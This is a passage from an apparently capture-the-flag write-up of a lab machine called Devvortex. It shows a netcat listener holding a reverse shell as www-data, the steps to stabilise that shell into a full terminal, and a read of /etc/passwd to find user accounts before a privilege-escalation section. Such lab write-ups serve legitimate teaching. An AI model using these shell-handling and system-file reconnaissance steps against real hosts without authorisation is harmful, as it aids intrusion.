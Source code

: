 ```bash
\www-data@devvortex:/\$ echo $TERM
echo $TERM
dumb
\www-data@devvortex:/\$ ^Z
\[1\]  + 219973 suspended  nc -lnvp 9999

\[please@ruby\]:\[~\] \$ echo $TERM; stty -a                                                                                                                       148 ↵
tmux-256color
speed 38400 baud; rows 74; columns 164; line = 0;
intr = ^C; quit = ^\\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W;
lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc -ixany -imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
\[please@ruby\]:\[~\] \$ stty raw -echo;fg

[1]  + 219973 continued  nc -lnvp 9999
                                      reset
reset: unknown terminal type unknown
Terminal type? tmux-256color
\www-data@devvortex:/\$ export SHELL=zsh
\www-data@devvortex:/\$ export TERM=tmux-256color
\www-data@devvortex:/\$ stty rows 74 columns 164
```

`cat`ing out `/etc/passwd`, we see that there are two users with login shells - `root` and `logan`, alongside a `MySQL` user that might be useful should we require credentials.

```bash
www-data@devvortex:/$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash

[...]

mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
logan:x:1000:1000:,,,:/home/logan:/bin/bash
```
> spoiler we do need credentials we need them you'll see in literally two lines

## Privilege escalation | User

Changing directory to `/home/logan`, the flag in `user.txt` isn't readable to us as `www-data`.

```bash
www-data@devvortex:/home/logan$ ls -la
total 28
[...]
-rw-r----- 1 root  logan   33 Feb  5 12:53 user.txt
```
